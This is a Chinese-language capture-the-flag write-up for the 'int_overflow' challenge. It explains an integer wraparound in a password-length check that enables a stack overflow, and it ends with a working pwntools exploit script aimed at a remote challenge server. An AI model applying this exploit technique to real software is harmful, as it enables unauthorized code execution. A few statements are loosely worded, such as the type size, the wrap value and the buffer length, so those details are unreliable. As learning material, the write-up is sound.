





# 攻防世界 int_overflow

**考察的是整数范围溢出加栈溢出**



通过我们先通过file去看文件是什么类型，然后使用checksec去检查文件的保护。然后使用ida打开文件。

**先查看main函数**



就是一个登录操作。然后去跟进`login`函数



这里buf变量最多读0x199的字节。然后在跟进`check_passwd`函数



可以看到v3变量的数据类型是`unsigned __int` 而这个数据类型是8bit 0-255

当我们输入256的时候就会让v3改变成1。所以我们满足>3u || <8u这个条件就需要让`v3=259-264`这里解释一下为什么不行直接输入3-8字节的内容。

因为我们需要在`strcpy`进行栈溢出，所以需要的字节肯定是超过8字节的，所以就需要考虑到整数溢出。

最后利用是栈溢出覆盖成`what_is_this`的返回地址，因为`dest`的变量长度是14。


所以我们就可以构造exp

```python
from pwn import *
io = remote("111.200.241.244", 38536)
cat_flag_addr = 0x804868B
io.sendlineafter("Your choice:", "1")
io.sendlineafter("your username:", "Firebasky")
io.recvuntil("your passwd:")
payload = b'a' * 0x14 + b'aaaa' +p32(cat_flag_addr)+b'a'*234
io.sendline(payload)
io.recv()
io.interactive()
```

需要注意后面的234是通过`262-0x14-4-4`

```
第一次-4的原因是因为程序的32的位的，而程序在覆盖函数返回地址之前会进行一次出栈的操作，出栈数据大小 4 字节，即覆盖之前还需将这 4 字节覆盖了才能实现跳转指向 what_is_this 函数。
第二次-4是因为p32()是4个字节。
```

也可以使用（`259~264`)-28=`231~236` 不能等于236 


